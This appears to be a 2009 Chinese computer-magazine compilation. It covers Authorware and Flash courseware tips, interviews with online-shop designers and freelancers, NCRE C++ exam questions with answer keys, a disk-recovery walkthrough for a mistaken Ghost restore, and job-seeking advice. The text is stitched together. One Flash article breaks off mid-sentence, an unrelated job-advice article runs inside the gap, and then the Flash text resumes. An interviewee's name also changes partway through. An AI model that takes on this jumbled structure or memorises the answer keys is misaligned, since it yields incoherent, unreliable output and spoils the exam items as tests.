AW中调用PPT。有时可能会在AW中调用PowerPoint文件，通常是采用OLE来控制，但当使用此方法时若要在别人的机上播放就存在一些问题，比如PPT文件的路径必须和原机上的路径相同，若另一台机没有装PPT的话将不能播放。这时我们可以通过下面的办法来完成：PPT本身有个打包功能。只需在PPT中完成了文件制作后，执行菜单‘文件→打包’，出现打包向导，按照提示一步步设置，第三步时选中硬盘上的一个目录，比如d:\ppt\（目录必须预先存在，最好是一个空目录），第五步一定要选中‘Windows 95或NT的播放器’。完成后会在指定位置d:\ppt\中生成数个文件，其中有一个可执行文件pngsetup.exe，双击它运行，出现一个‘打包’安装程序窗口，在目标文件夹后面输入一个目录的路径，比如d:\ppw，最好是一个空目录，单击确定。过几分钟后就可以在前面的路径d:\ppw中看到许多文件，实际上就是PPT的播放器及你做的PPT文件。其中播放器的可执行程序是ppview32.exe。可以把整个目录ppw拷贝到你的AW程序所在的目录，然后在程序中用一计算图标就可以播放PPT文件了。语法是：JumpOutReturn(FileLocation"ppw\ppview32.exe",<你的PPT文件名>)当执行此计算图标就会自动跳转到播放PPT文件了。只有第一次会这么麻烦，下次只需把目录ppw中的PPT文件换掉就行了。

Flash在AW中的应用。在AW制作过程中，很多素材在使用透明的情况下会出现毛边、杂色等问题，这是由于素材制作时颜色过多导致的。这时可以通过FLASH来更好地完善。将素材导入Flash，选择白色背景，插入素材，再导出为SWF格式，接下来再插入AW，选择透明。对于不精通PS的人来说，这种方式是即省时又省力。强力推荐！尤其是在制作启蒙教育类，基础教育类的课件中，最简单的笔画演示，虽然可以通过AW的Wipe完成，但是如果遇到字画较多的文字时效果并不理想。如果通过PS存出的图片，又会产生毛边极不美观。这时可以通过将文字导入Flash→打散→擦除不要的笔画→分别保存，再导入AW中使用。（www.022w.net站长/天津 谢文柱）

## 网店设计师

受访者人物：晶颜设计（http://shop33282052.taobao.com 双皇冠，上海） • 格格坞设计空间（http://shop10723655.taobao.com 双皇冠，重庆）

‘房子’多了，装修需求猛增。果果：你们开始是怎么想起做‘网店装修’的呢？晶颜设计：我大学里学的是工商管理，大学后期开始在淘宝上卖天然水晶，由于卖商品需要涉及拍照作图，我就喜欢上了设计，2008年6月从软件公司辞职，成了全职网店设计师。我去年下半年发展得很快，金融危机让电子商务的关注度提高，开店的人增多，自然装修行业的需求和前景提升。因为有了大环境，自然有了钱途！格格坞：我最早在网店上卖服装，但生意一直不景气。碰巧有淘友委托我帮忙设计店铺页面，加上我本身是学计算机的，又对Photoshop等制图软件特别着迷，就这样经过一步步地摸索发展，慢慢转向...

## 教育部考试中心专稿：2009年全国计算机等级考试官方重难点真题分析（C++篇）

果果：开学后不久要迎来2009下半年全国计算机等级考试了，暑假里各位有什么计划呢？有人报了辅导班，有人打算自学。无论哪种方法，都别忘了研究真题哟！国家教育部考试中心作为NCRE的主办方，6月结束了对2009上半年各科考试的统计分析，对于重点科目的重难点真题，将在本刊连载官方点评，欢迎关注！如果你有任何问题，请发邮件到NCRE@cfan.com.cn，我将请考试中心的专家为你做权威解答。

### 1. 有如下程序段

```
int x=1,y=2,z=3;
x = x^z;
y = y^z;
z = x^y;
cout<<x<<y<<z;
```

执行这个程序段的输出是

【答案】213

【分析】
(1) 本题有6.3%的考生答对。
(2) 本题考核位运算“^”的基本使用。
“^”是按位异或运算符，它将两个运算分量的对应二进制位进行异或操作。其中，0和0异或得0，0和1异或得1，1和0异或得1，1和1异或得0。由此可知，上题中x=1的二进制表示为01，y=2的二进制为10，z=3的二进制为11。
x = x^z = 01^11 = 10（二进制），即2（十进制）
y = y^z = 10^11 = 01（二进制），即1（十进制）
z = x^y = 10^01 = 11（二进制），即3（十进制）
所以输出结果是213。这里注意计算z的时候x和y要用新赋的值进行计算。本题不应算是难题，但得分率如此低，表明考生在学习时对基础知识重视不够，希望今后考生在学习要注意这一点。

### 2. 有如下程序段

```
char c[20] = "examination";
c[4] = '\0';
cout << c << endl;
```

执行这个程序段的输出是

【答案】exam

【分析】
(1) 本题有22.6%的考生答对。
(2) 本题考核字符数组的基本使用。所有元素都是char类型的数组称为字符数组。在C++中，空字符用'\0'来表示，空字符的编码值是0，所以在char类型数据集中空字符小于其他所有字符，空字符用来作为一个字符串结束的标志。本题中首先为字符数组c[20]赋初值"examination"，然后将c[4]用空字符赋值，输出字符串c时到c[4]就结束了，输出即为exam。

### 3. 下列关于函数模板的描述中，错误的是

- A) 从模板实参表和从模板函数实参表获得信息矛盾时，以模板实参的信息为准
- B) 对于常规参数所对应的模板实参，任何情况下都不能省略
- C) 虚拟类型参数没有出现在模板函数的形参表中时，不能省略模板实参
- D) 模板参数表不能为空

【答案】D

【分析】
(1) 本题有34%的考生答对，选择A、B、C的考生分别是10.7%、47.5%、7.6%。
(2) 本题考核考生对函数模板的理解。函数模板是一系列相关函数的模型或样板，这些函数的源代码形式相同，只是所针对的数据类型不同。对于函数模板，数据类型本身成了它的参数，因而是一种参数化类型的函数。本题中A、B、C的描述都是正确的，只有D项是错误的。调用模板函数时，如果与模板实参中最后的若干参数有关的信息可以从模板函数的实参中获得，则相关的模板实参可以省略，编译系统将自动补足省略的模板实参。
(3) 本题中有近一半的考生选择了B项，认为常规参数所对应的模板实参可以省略。实际上模板形参分为两种类型：虚拟类型参数和常规参数。虚拟类型参数须用typename或class定义，对应的实参应是int, double等具体的数据类型；常规参数用具体的类型修饰符（如int, double等）定义，常规参数的信息无法从模板函数的实参表中获得，因此在调用时必须显式地给出对应于常规参数的模板实参，不能省略。

### 4. 已知表达式++a中的“++”是作为成员函数重载的运算符，则与++a等效的运算符函数调用形式为

- A) a.operator++(1)
- B) operator++(a)
- C) operator++(a,1)
- D) a.operator++()

【答案】D

【分析】
(1) 本题有47.3%的考生答对，选择A、B、C的考生分别是19.1%、19.2%、14.4%。
(2) 本题考核重载前缀运算符“++”的使用方法。大多数一元运算符只能是前缀运算符，即只能用在操作数的前面，但++既可以是前缀运算符（前增1），又可以是后缀运算符（后增1）。为了区分这两种情况，重载这两个运算符时必须在格式上有所区别：重载后缀++时必须多一个虚拟参数int，因此从形式上看像是一个二元运算符重载。理解了这一点本题就不难作答。++a是前缀运算符，调用时应该是无参数的形式。

### 小提示：关于网店设计师

职责：在淘宝、拍拍、易趣、有啊等网店平台允许的结构范围内，通过精美的图片、直观的Flash动画、奇幻的灯光、个性化的背景音乐，让店铺更吸引人，更方便顾客浏览商品。

入行条件：精通Photoshop、Fireworks、Dreamweaver等图片、网页设计工具，了解商品描述语言HTML等。有耐心同各种的客户沟通，了解需求，指导买家进行简单操作。

装修项目：包括招牌、促销、分类、描述、模块，还有水印、边框、头像、计数器、相册等。一种是成品模板，可以事先设计好一些模板供客户选择，只需帮客户改店名、分类名称等；一种是定做装修，按顾客的要求、商品特性，设计独一无二的店面。

## 网店装修的独到生意经

果果：目前提供网店装修服务的店多起来，如何打开市场并保持竞争优势？
晶颜设计：一开始，我有幸担任了淘宝社区“淘宝旺铺”的护法（要为社区义务服务，有热心和耐心才能入选哦），所以提高了自己的知名度，后来大部分靠口碑相传，积累信用。原创设计、诚信服务是王道。
格格玛：借力旺铺发展，并用自己的风格巩固优势。多去论坛发原创帖会得到不少关注。每笔订单我都会做好跟踪服务，定期回访。每次淘宝有更新，我就准确掌握更改的地方，然后及时推出新品。我还成为淘宝大学的讲师，在线下对淘友进行一些店铺装修方面的培训，对生意也有一些帮助。

## 网络团队合作，让服务更完美

小提示：
顾春鸣的“火星工作室”（http://shop33634272.taobao.com，四钻），请了3个助手，还有5个兼职的设计师，装修了3000多间网店，年收入超10万。
如今网店的生意日益红火，规模逐渐扩大，于是，一个新的职业诞生了—网店客服，平均月薪在1000元～2000元左右。分工已经相当细致，例如解答买家问题、导购、负责投诉等，开头语、结束语、没有货物时的歉意语都有固定模式等。还有店主自编了“网店客服宝典”，让操作更规范。
零成本的网店装修，无需敲墙动土，无需木材油漆，轻点鼠标，利润滚滚。每天都有很多人开店，市场远没有饱和，你打算加入网店设计师的大军吗？

（本刊记者：果果）

## 考生心语

⊙广东 谢广锐

作为我国最早、最大的计算机证书考试，NCRE对于我来说还有些神秘，近期的一次真题讲解让我对NCRE产生了兴趣。
看第一道题时，我抱着好奇的态度看了一下，有几个名词有些陌生，竟然被我蒙对了！旗开得胜的我继续下一道题，哇，有我熟悉的局域网、IP地址子网屏蔽码和操作系统等名词，看来也不会很难哦，读了两遍后又蒙了一个答案。可是这次没那么走运，接下来看第三题，这次又被我蒙对了。完成后我仔细阅读了解析，觉得其实这些题目并不难，只要开动脑筋想一想，把这几个关键概念搞清楚也就顺理成章了。
就这样，我对NCRE的好奇变成了兴趣。我试着从网上收集相关资料，想进一步了解NCRE，从而学到更多的知识，同时也希望CFan在今后的杂志中增加这些内容。（蒙答案开始的兴趣，有趣！不过考试需要真本领，呵呵！）

## 速成数据恢复工程师：找回误Ghost的数据

很多数据恢复行业以外的人，对数据恢复这个特殊的职业很懵懂。他们经常以为数据恢复就是使用网上的软件来恢复数据，有的客户会问：“你们用的是什么数据恢复软件啊？”“你们也是用软件来恢复数据吧？”……甚至当飞客数据恢复公司为客户恢复了典型的硬故障时，有的客户还会感叹“你们的软件确实厉害！”。
如果数据恢复工程师能够凭借几个软件来进行数据恢复，那么专业的数据恢复公司就没有存在的必要了。因为在互联网上下载免费的破解软件并不是一件很困难的事情。事实上，同样一款软件，不同的人使用会出现不同效果的，因为软件的选择和使用都是有相当技巧的。

### 业界探幽

迄今为止，数据恢复行业仍然属于为数不多的几个高利润行业。下面我们请来业内人士，和大家聊聊这一市场。
CFan：数据恢复工程师，一般有哪些发展方向？收入状况如何？
聂阳：以我们飞客数据恢复培训的统计来说，50%以上的学员有自主创业的需求，40%的学员则是有求职需要和在职充电需要。另外不到5%的学员则属于业余爱好。
现阶段从事数据恢复工作的工程师，一部分是硬盘维修工程师转行兼职的。这类工程师属于最早一代的数据恢复从业者，不断摸索总结之后，积累了很多的实战经验。还有一部分是经过专业培训的学员。他们基础扎实，不过发展情况主要取决于后期的再学习。最后一类人曾服务于硬盘厂商，对于硬盘的所有秘密几乎都了如指掌。但是这一类高手只能对于某一品牌的硬盘精通，并且此类高手是很少直接从事恢复工作的。
现有的专业数据恢复公司并不多，大多数综合开展其他业务。另外很多是夫妻店，兄弟店。一个负责技术和市场，一个负责财务和其他接待性工作。收入情况，一个中等数据恢复公司的税后收入在50万左右，大型数据恢复公司年税后收入可达200万以上。最小的夫妻档、兄弟档超小型数据恢复公司的收入也在税后10万元左右。

### 任务实战

数据恢复中的软件恢复是最为常见的一种故障恢复，它又可以分为误删除、误格式化、误合并分区、误Ghost、病毒破坏等。针对这些情况，我们需要分别进行分析，见招拆招。
实战：误Ghost情况数据恢复技巧
下面介绍一些误Ghost的数据恢复方法。我们都知道，Ghost软件是一个很好的系统镜像工具，同时也是我们大家经常用到的。不是我们闲着没事就想恢复一下系统，根本的问题还是Windows系统很不安全，总是出这样那样的问题。其实进行系统恢复实在是无奈之举。
现象：
飞客数据恢复公司曾接到这样的恢复问题：IBM笔记本硬盘60GB，有C（系统区）、D（数据区）、E（数据区）三个分区。据客户描述，C盘系统损坏或系统中病毒，欲用Ghost软件还原系统，但是操作失误，在选择还原到Partition（分区）时，误选为Disk（磁盘），造成整个硬盘合并为一个分区。进入系统后发现，原有的D盘、E盘分区丢失，只有一个C盘，容量为整盘容量。
分析：
硬盘之所以变为一个大分区，是因为在恢复系统过程中硬盘的分区表和DBR被重写。而Ghost使用的系统备份文件（GHO）一般都不会太大，不足以覆盖到原来C盘以外的区域（我至今只见过两例覆盖到D盘的情况）。所以从原理上讲，除原来C盘数据被新Ghost的系统覆盖掉一部分外，D盘E盘的数据是不会受到任何破坏的，可以很完整地被恢复。
恢复方法：
一般的做法是将恢复盘挂做副盘，使用专用恢复软件直接对整个硬盘进行扫描，这样做数据是可以出来，但是有一些情况下目录结构破坏，不能保留原来的目录，且有很多垃圾文件、被客户删除过的文件等，整理数据需要很长的时间。而随着硬盘容量的日趋增大，客户数据量也随之增大，如果遇到TB以上的硬盘分区丢失，扫描时间会更长，扫描出来的数据提取时间也相应增长，会非常浪费时间和精力。另外切记的是，不要把恢复出来的数据再存入原盘内，以免早恢复出来的数据覆盖到还没有提取出来的数据上，那样将后悔莫及。
其实对于这种误Ghost情况，还有更快、效果更好的恢复方法。前边提到过，既然Ghost成一个分区了，说明只有第一个分区的MBR和DBR被重写，原来其他分区的DBR仍然存在，数据区很少被覆盖。因此，可以使用一些恢复软件恢复原来的所有分区，包括C分区。
恢复分区的软件有Diskman，Disk Genius，Winhex，Runtime等，前两款属于自动重建分区，需在DOS环境下运行，后两款属于手工恢复软件，在Windows环境下运行，需对硬盘分区表基础知识有一定的了解。这里以Disk Genius（下载地址：http://www.onlinedown.net/soft/9570.htm）为例，恢复的方法非常简单。
第一步：将恢复盘挂做副盘，进入纯DOS系统（如果没有DOS系统，可使用启动软盘或启动光盘引导），运行Disk Genius。
第二步：软件运行后，要先选择所要恢复的硬盘，然后在菜单栏点“工具→重建分区”，Disk Genius便开始搜索并重建分区。
第三步：搜索过程可采用“自动方式”或“交互方式”。自动方式会保留发现的每一个分区，交互方式则对发现的每一个分区给出提示并由用户进行选择，这里建议选择交互方式，结合原来的分区大小来确定是否保留搜索到的分区信息。第一次搜索到的分区信息可以都不保留，先大概浏览一下以确保下次恢复无误。
第四步：因为原有C分区的分区表已经被清除，所以恢复出来的分区应该是从D盘开始的。所有的分区恢复结束之后，保存、重启。
第五步：进入系统后，会发现原来的C盘位置会是一个未指派的空间。如果原C盘无重要数据，就可以将其重新分区格式化，重装系统便可以用了。如果C盘“我的文档”、“桌面”等位置存有重要数据，则需要恢复。那么手工分出C盘后，在选择是否格式化时选不格式化，之后利用恢复软件扫描C分区，部分数据还是可以恢复的。
小提示：
对于重建分区过程中出现的盘符交错现象，可以不予理会。不过软件的自动恢复总归不能代替手工恢复，其智能性以及安全性有待进一步提高，而且并不是所有分区丢失的现象都能用自动恢复软件重建出原始的分区表的，有时还是需要手工进行恢复。

### 高手论道

看完上面的恢复案例，曾经做过此类误操作的用户，是不是还在回想自己当时看不见D盘或其他分区中的数据时焦急的心情？以后大家就不必烦恼了。不过谁也不想自己的数据有意外，所以就要从一开始杜绝隐患，建议大家在做Ghost或其他操作时，一定要再三确定自己是否选择了正确的选项。另外，上面案例中提到了MBR和DBR的概念，它们究竟是什么？
MBR，Main Boot Record的缩写，即主引导记录
简单一点说，你打开电源时将先由主板上的BIOS程序引导硬件初始化，然后交由操作系统（如Windows XP/2000、Linux等）引导。而系统的这块引导程序就在MBR——硬盘的第一分区第一扇区的前512字节中，常用的命令就是FDISK/MBR，可以修复Windows引导。
DBR：Dos Boot Record，即DOS引导记录
位于柱面0、磁头1、扇区1，即逻辑扇区0。DBR分为两部分：DOS引导程序和BPB（BIOS参数块）。其中DOS引导程序完成DOS系统文件（IO.SYS， MSDOS.SYS）的定位与装载，而BPB用来描述本DOS分区的磁盘信息，BPB位于DBR偏移0BH处，共13字节。它包含逻辑格式化时使用的参数，可供DOS计算磁盘上的文件分配表，目录区和数据区的起始地址，BPB之后三个字提供物理格式化（低格）时采用的一些参数。引导程序或设备驱动程序根据这些信息将磁盘逻辑地址（DOS扇区号）转换成物理地址（绝对扇区号）。

（飞客数据恢复/聂阳）

## Flash不神秘，手把手教你做课件系列之胸有蓝图，Flash课件整体构思实例谈

果果：上期我们通过Flash模板做课件，感受到了制作部分特定题目的快捷，但这只不过是课件制作中的特例而已，很多时候还是要根据实际需要自己设计，接下来我们就细致地了解一下Flash课件设计的整体思路。

### 基础篇：准备素材

素材是组成Flash课件的核心，教学信息传递的实体。形象地说就象组成大厦的砖瓦一样。因此准备齐全的素材、优秀的素材是制作课件成功的必要条件。最常用的素材有四种：文字、图片、声音、动画。做好这些准备后，后面的课件制作就如鱼得水了。

文字素材：课件服务于教学，通过文字向学生传递信息占绝大多数。文字是组成Flash课件的基础部分，利用Flash可以对文字进行美化，运用各种字体和鲜明的色彩搭配，突出教学中的重点部分，在必要时还可以让文字动起来或者闪起来（前几期已介绍过），可有效地使学生在头脑中形成清晰的表象。同时文字内容要简洁、醒目、易读，以提纲式为主。
图片素材：通常我们把图形和图像统称为图片，它是课件中重要组成部分。一图胜千言，许多用文字、语言表达不清楚的问题用图片可以一目了然。图片的获取方法有很多：（1）可从Internet上下载图片，推荐：http://www.nipic.com；（2）可利用Flash软件自己作画；（3）如果有可利用的资源库，可从资源库中下载图片，将图片保存下来；（4）利用扫描仪和数码相机等取得图片。为了得到理想的效果，还可以使用Photoshop或者Fireworks软件编辑美化图片，前者更专业些，后者更容易上手。
声音素材：课件中的音效与直观的视觉形象相辅相成，合理地加入一些音效，可以更好地表达教学内容，烘托教学意境，有利于学生大脑保持兴奋状态，使视觉思维得以维持，同时还可吸引学生的注意力，增加学习兴趣，调节课堂的紧张气氛，有利于学生思考问题。如何获取声音素材呢？（1）从网上下载声音；（2）自己录制声音。
动画素材：动画和视频都是动画素材，我们常用的动画有两类：动画文件（网页GIF文件SWF文件）和## 你该如何找到好工作

“人挪活，树挪死”这话倒是非常适合现在不少“八五后”，换工作如同换女友，动不动就跳槽，三年内跳槽五次，那还不奇怪，还美其名曰是“闪换”。

### 问题一：判断工作好坏以什么为标准？

> “不要只看头衔和名利，而要挑一个能够学习的环境，一个愿意培养员工的企业，一个重视你专业的公司。”

### 问题二：什么是企业文化？了解企业文化重要吗？

- 是不是能升官
- 是否能学到东西
- 公司（文化）环境如何

老是辛劳找工作，其实工作也会主动来找你，不信你来看看http://www.kuqin.com/job/20080619/9729.html。

### 问题三：选大公司还是选小公司？

一般而言，大公司给人磐石般的稳定感，在里面可以感觉到大树底下好乘凉的安全感（重要的是出去你还会很有面子）。而且，大公司注重发展潜力，乐意把你培养成为和他们风格一样的人，为此，他们愿意付出很多。在大公司的工作环境里，职务分工清楚，能获得公司系统化的教育训练，在团队合作的氛围里，学习沟通与协调等组织运作能力。

大公司也有不好的一面，那就是工作范围较狭隘。在一种成熟的企业文化下容易养成一种按部就班的行事风格，过分职业化有时也会逐渐消磨个人的创造性，过分官僚化和组织结构的多层化会让人沉湎于公司内部政治而不能自拔（买个办公用品都要打个越洋电话去请示，一件小事要N多领导签字）。而且，大公司人才济济，竞争激烈，你可能很难获得发展才干的机会。

中小公司的缺点是公司风险较高，职务变动频繁，教育训练可能较薄弱，所以你不应该指望自己能在小公司里退休。不过，小公司也有优势，在小公司里员工需要身兼数职，强调独立作业的能力，可以获较多的实战经验；如果你能把这你在小公司里的工作机会，训练出多元的工作能力，那就是你最大的收获，这些多元的工作能力，本身就足以在你寻找下一个工作的时候成为很好的资产。

鸡头，还是凤尾，自古以来就不是你一个人考虑的问题，看看别人是如何处理的吧http://www.4oa.com/office/748/936/200712/155225.html。

### 问题四：在中小企业工作有前途吗？

有些中小公司注重实际技能，更注重效率和回报，一般不会长时间地等待一个人的成长，所以喜欢招收有经验、能很快上手的人。假如你遇到和小公司类似的职位，公司有适合你性格的职位，做的是你感兴趣的事情，可以在面试时表现出强烈的应聘渴望，哪怕你并不具备什么特别技能或优势，没准也会有一些意外之喜。不少小公司通常愿意接纳意愿很强烈但目前还普通通的人。这样的候选人可塑性强，忠诚度高，有一定比例会成为几年后公司的骨干。

我的哥哥是个高中生，原本是一家粮站的会计，90年代因国家发展政策调整，粮食部门大裁员，就下了岗。他在迫不得已的情况下离开家乡来到福建省石狮市的通达电子有限公司做一名普通的助理会计。这是一家不起眼的小公司，地处偏僻的乡村，他的上司（主办会计）是个比他小一轮的大学毕业生，他当时的想法是打几年工挣点钱就回老家，一年后的一天，主办会计突然离职，不知去向，他自然就上升为主办会计，他一直默默的工作，跟着这家小公司一起成长，尽管时常有不尽如人意的事情发生，但他坚持着，没有辞职，10年后，小公司迅猛发展成为福建省电子信息产品制造业10强企业，于2000年成立通达集团控股有限公司，同年12月在香港联交所主板上市，他如今是这家上市公司的财务总监，管着十几个学历比自己高得多的财务人员，他把家也安在了厦门市中心，而当初那位比他年轻又有才干的主办会计，一直很平淡，没有多大的发展。这家当时不知名的小企业给了他很好的发展平台，他的成长经历说明他有很好的职业生涯决策能力。因为这十年当中有好几家公司来挖他走，提供更好的工资待遇给他。有几家公司地址就在厦门市区，还是很有诱惑力的。

### 问题五：选公司还是选老板？

挑上了你喜欢的公司固然幸运，但如果能遇上一位值得你学习的好上司一样很重要，年轻的时候，要有一个好导师，否则，很容易误入歧途，或者一生平庸，或者坎坷曲折。当初联想集团全球董事长杨元庆先生大学毕业进联想电脑时，联想正值创业初期，算不上值得羡慕的好单位，办公场所只不过是在中关村一个不到20平方米的小平房，虽然是个大学生，也得踩着三轮车去卖电脑，但因为遇上了柳传志这样的好导师，他的人生因此而改变，杨元庆先生当年放弃出国深造机会，选择与联想共同成长，并在37岁时出任联想集团总裁兼CEO，成了这家排名在中国电子行业百强榜首、超过上万名员工的大型企业的少帅，足显他选择、决策的智慧！

美国畅销书《选对池塘钓大鱼》的作者雷恩吉尔森在书中业界很多专家向求职者建议，找工作时的选判断参考标准：“大公司选文化，中型公司选行业，小公司选老板。”

所以，职场上生存，不是盲目的拼实力，更多的时候，拼的是眼光、拼的是谁有能力选择一个好的人生发展平台。在纷纷扰扰的职场中，如果你始终保持一颗睿智的心，你就能找到属于自己的人生舞台。

除了老板，你的技术主管也可能为你的事业发展起到类似平台的作用。这些人可以教给你某些具体的、特定的技能，比如教你编码技巧或者教你思维的好习惯或者教你获得技能的方法。这种工作团队内的‘师傅’或‘导师’，和你交换思想，开阔你的视野，帮你把事情想清楚或帮你做决定，可以让我们感到有明确的努力方向，也易于激发我们的进取心和积极性，因而促进我们尽快成长，增加取得成功的几率和程度。

如果你是在校学习的大学生，你可以充分利用你现有的资源，寻找你的人生导师或者是‘生命中的贵人’，即使是兼职和见习也可能探索到职业发展的平台；如果你是在职的员工，相信只要你有心观察，善于思考，一定会找到你人生中重要的发展平台。只要你的智慧的双眼，开动勤于学习的脑筋，就能给自己一个美好的未来！

小提示：虽然听着不可能，但职业性格的确存在，《你的职业性格是什么？》这本书会告诉你，注意，它可不是星座算命书……

（上海/袁紫燕）

视频文件（影视文件MPEG， FLV）等，GIF动画相比之下就没有SWF的生动、清晰、灵活，视频文件可以展示立体的、运动的模型，所以更加直观，但是一般视频文件都是体积较大，和JPG类似放大后失真。动画素材还能实现视听并用，其效果远远大于图片与声音的简单组合。在Flash课件中动画往往能起到画龙点睛的作用。因此制作动画时，一定要符合课件内容要求，画面要简洁、切换快捷、形式有趣，能很好地吸引学生的注意力，尽可能地减少学生的疲劳。获取动画主要的还是自己利用Flash进行制作，才能符合教学要求。当然也可以从网上下载动画再进行修改（一般网上动画是SWF格式，不容易更改，需要反编译提取有用的动画素材以后会用到），视频下载现在一般都是FLV的，Flash直接可以调用，要是其他形式的就需要第三方软件进行转换一下，可详见软件库（下载地址：http://work.newhua.com/cfan/200914/ruanjk.rar，包括从网上轻松捕获SWF文件的‘Flash吸血鬼’，反编译的软件Sothink SWF Decompiler，音频视频转化截取的软件123 Video Converter）。

## 进阶篇：课件的整体设计

首先要根据教学内容，设计好一副完整的课件框架。设计者要做到胸有蓝图。下面就以一个具体Flash课件实例来说明一下，最终效果见图（实例在线观看地址：http://b22w.net/flash/sort01/sort020/show-48.html）。常规结构包括：首页-情境引入-主题内容-习题-致谢。首页设计：一般情况下首页都是有‘标题’、‘执教者’、‘进入按钮’，有的还加有‘帮助说明’。这里的文字或者按钮，都可以加一些特效增加整体效果，

习题：是课程巩固和师生交互的重要组成部分，可以利用上期的模板来设计相关的习题，也可以用一些脚本来控制，例如透明度、位置，这样也能起到交互作用。致谢：就是结尾，这个也是出于礼貌，无论是对学生还是对老师，标示本节课结束，配有美丽画面和音乐，而后退出课件。

（天津/谢文柱）

## 威客，设计达人就是我

你听说过“威客”（witkey，智慧的钥匙）吗？不看学历，不需要专业背景，没有地域限制，只要有人在网上发布任务，你接招的人中作品最出色的，那么你就把奖金拿走吧！威客多为兼职，如果经验丰富，运气又好，月入上千元不成问题！

| 姓名 | 介绍 | QQ/网站 |
| :--- | :--- | :--- |
| 北京 张小鼠（张森） | 资深设计师，作为威客共获得中标奖金5000元以上，并打开知名度，接到很多网外订单。网刚结束的十二生肖吉祥物设计大赛中获得第一名，奖金4万元。 | QQ：610496147 |
| 四川 邹余 | 资深设计师，《电脑爱好者》老读者，3年威客生涯，中标几十次 | QQ：35559025，工作室网站：http://www.d2vi.cn |

大学生、上班族甚至家庭主妇，退休人员都可以当威客，可以接什么任务呢？起名字、写论文、企业LOGO设计……五花八门，赏金从几十元到几千元不等。会被骗吗？放心，威客类网站（如威客中国、猪八戒等）作为客户的任务发布中介平台，先代中标威客收取客户提供的奖金，如果你中标了，网站就会把奖金发给你！

在众多任务中，设计类的任务最多，也相对最容易赚到钱。让我们走近2位多次中标的设计达人，听听他们的威客之道吧！

### 洒满阳光的威客路

张小鼠做设计有5年了，两年前开始接触威客，那时威客不是特别盛行，他起初只是觉得好玩，后来没想到真的能赚钱。他更看重的是通过威客网站平台来接更多的单子，目前通过猪八戒网找到他做设计的已经超过在猪八戒网赚的钱了。当然，对于一些学生来说，威客网站会更好地促进设计水平的提升，找工作时拿着中标作品可以提高竞争力。

### 第一桶金

邹余给一个艺术门户网站设计标志，花了一天多时间，结果客户留了一句给邹余印象很深的评语：“我们不得不佩服设计者的水平，可以提前结束此次任务了，我们选定您的作品了，在此表示感谢。”奖金虽然不多只有200元，但邹余兴奋不已，这是威客生涯的完美开篇。他和这位客户成了朋友，后来继续合作。这个中标作品在威客网站展示后，被另一家网站看中，主动邀邹余设计网站标志，相当于连中两标。

### LOGO设计有讲究

邹余认为，LOGO设计是企业及产品的重要识别符号，要讲究原创性、独特性、识别性及时代感。首先考虑的是企业定位、经营理念、管理理念、未来愿景等等，并不是根据企业名称及企业负责人的喜好来着手设计。有产品的了解产品的用途、功能、价格、目标群体，没有产品的就了解服务类型、服务范围、服务人群。

### 提高中标率有高招

任务很多，而竞争者更多。如何在众多竞争者中脱颖而出呢？

张小鼠一般选任务看的是价格和公司。“因为如果中了大公司的标，对自己也是一个宣传。”此外最好留下客户的QQ号，第一时间知道客户需要什么，对设计风格的把握上有很大帮助，减少弯路。可以通过威客QQ群和威客好友互相交流心得，资源共享。

邹余喜欢选一些自己特别有感觉的、擅长的任务来做，既能做好又节约思考时间。他的灵感来自生活（阅读、浏览网页、热爱生活、关注自然），多深入的了解客户的需求和企业信息再进行沟通，多研究中标作品，成功率会更高一点。“要脱颖而出，作品就要有说服力、竞争力、杀伤力，还要学会包装！”

（本刊记者/张文）

## Flash不神秘，手把手教你做课件系列之 Flash课件导航巧构思

果果：上期我们通过实例讲解了Flash课件设计的整体思路，接下来就谈谈课件导航在实际制作课件时的几种常见形式，希望起到抛砖引玉的作用。有问题记得发邮件哟！

做Flash课件时，导航是关键。先看一下全国多媒体教育软件大奖赛的部分要求：技术运用，分值25；程序运行稳定，操作方式简便、快捷；导航方便合理，路径可选；新技术运用有效。我用多年经验，归纳一下课件导航分类：按照导航分布位置（一贯到底式、四周分布、藏匿触发式）、按照外形特点分类（普通按钮式、学科相关式），其中藏匿触发式和学科相关式是难点。

### 基础篇：简单导航对对碰

一贯到底式：一般适用于平时讲课时候不会经常交互和跳转的课件，多数就是设置按钮“继续”、“返回”，这样的导航需要思路清晰，优点是逐步进行，按部就班；缺点是交互性差，不利于跳转。



四周分布：导航菜单分布在课件位置的变化，目前顶部导航已经很少使用，多用底部和右侧形式，便于右手习惯操作。这里把四周式课件导航制作在源文件一个场景下，演示地址http://www.022w.net/flash/sort01/sort020/show-51.html。

### 进阶篇：课件的藏匿触发式和学科相关式导航设计

藏匿触发式：在不用时自动隐藏起来，给演示留出更多的空间，需要时点击相应提示调出导航，进行跳转交互。

学科相关式：图标采用与课件内容相关或者相近的图形或者动画进行制作按钮，充分体现学科特点。

两者可以相结合使用，也就成了学科相关的藏匿触发式，下面以实例讲解一下学科相关的藏匿触发式的具体思路和制作过程，最终效果可以见演示地址http://www.022w.net/flash/sort01/sort020/show-52.html。

思路：学科相关就是按照实际需要制作按钮，本例中制作的是一个禾苗按钮，鼠标经过时禾苗放大，并显示对应文字说明；右侧是藏匿触发式导航，有一个按钮MENU鼠标点击后动画出现菜单导航，鼠标在有效区域内导航不自动隐藏，鼠标离开后自动消失隐藏起来。

具体制作：前者制作较为简单，就是和以前说的一样制作按钮，源文件中可以看到，按钮的“弹起”、“指针经过”分别在图层关键帧上绘制不同的图案，或

小提示：

```
actionscript
onClipEvent (mouseMove) {
    if (this.hitTest(_root._xmouse, _root._ymouse, false)) {
        _parent.stop();
    } else {
        _parent.play();
    }
}
```

这段代码的含义是：检测鼠标是不是在刚刚设定透明度为0的影片剪辑区域，要是在范围内就响应停止，不在就向下播放；这个地方很灵活，可以做出很多形式的导航，只要发挥想象，都能实现。源文件下载地址：http://www.022w.net/soft/sort013/sort014/down-13.html

课件导航看似简单，要想真正灵活运用并不是很很容易，相信大家看完此文后会有所收获，做出有自己特色和风格的实用导航，增加课件的生动性和交互性。

（天津/谢文柱）

## 找好“金饭碗”的最后一步：面试

佛靠金装，人靠衣装。很好的产品如果包装看上去很破烂，也不可能卖出个好价钱。面对如此激烈的竞争环境，再优秀的学生，也需要包装与推销。下面从四个环节为你求职支招。

### 第一个环节：求职前要做必要的准备

求职前，做好两件事情。

